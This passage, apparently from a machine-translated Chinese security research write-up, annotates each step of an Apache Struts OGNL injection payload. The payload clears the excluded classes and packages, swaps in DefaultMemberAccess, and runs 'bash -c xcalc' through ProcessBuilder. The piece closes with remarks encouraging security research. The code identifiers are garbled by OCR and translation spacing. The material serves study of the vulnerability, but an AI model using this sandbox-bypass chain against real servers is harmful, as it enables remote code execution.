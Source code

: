 2.  **#context=#_。get context()**–然后用于获取上下文

3.  **# container = # context[' com . open symphony . xwork 2 . action context . container ']**–获取容器

4.  **# ognlUtil = # container . getinstance(@ com . open symphony . xwork 2 . ognl . ognlUtil @ class)**–获取对 ognlUtil 类的引用

5.  **# ognlutil . setexcludedclasses(')**–清除排除的类

6.  **# ognlutil . setexcludedpackagenames(')**–清除排除的包名

7.  **#dm=@ognl。OgnlContext@DEFAULT *成员*访问**–用值`DefaultMemberAccess`定义变量 dm

8.  **# context . set member access(# DM)**–设置`DefaultMemberAccess`而不是`SecurityMemberAccess`

9.  **# sl = @ Java . io . file @ separator**–未使用

10.  **# p = new Java . lang . ProcessBuilder({ ' bash '，'-c '，' xcalc ' })**–用命令(xcalc)声明 process builder

11.  **# p . start()**–执行命令

## 9.结论

尽管 Apache Struts 是一个众所周知且广泛使用的框架，但由于缺乏公共安全研究，它仍然是一个容易攻击的目标。关于这个话题最有用的公共研究知识可以在 LGTM 的博客上找到。

OGNL 注入漏洞影响 Apache Struts 的多个版本，是如何通过滥用代码中的现有功能来远程执行代码的一个很好的例子。

一开始，利用可能看起来很困难，但实际上并不困难，调试器总是会有所帮助。对于安全研究人员来说，熟悉 Java 可能很难，但这最终会变成一种优势。

全新的研究，耐心是最宝贵的品质。我们的建议是，当事情变得艰难时，不要扔掉你的玩具。并且经常提问——安全社区很友好，也很有帮助。